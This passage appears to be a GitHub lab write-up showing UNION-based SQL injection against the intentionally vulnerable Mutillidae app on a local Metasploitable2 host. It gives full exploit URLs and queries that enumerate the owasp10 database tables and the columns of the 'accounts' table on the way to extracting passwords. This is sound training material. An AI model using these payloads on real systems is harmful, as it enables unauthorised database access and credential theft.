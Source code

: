 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-27 173946](https://github.com/RahulKrishna05/sqlinjection/assets/162027231/586a4470-d58a-440b-8bc6-c04c8352d4f4)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![Screenshot 2024-04-27 174020](https://github.com/RahulKrishna05/sqlinjection/assets/162027231/435cc8d3-3904-4851-82b1-6db7d36ca903)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![Screenshot 2024-04-27 174038](https://github.com/RahulKrishna05/sqlinjection/assets/162027231/d189027d-8e0e-4b0e-814e-8aff6a6b21b5)

## Result:

The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
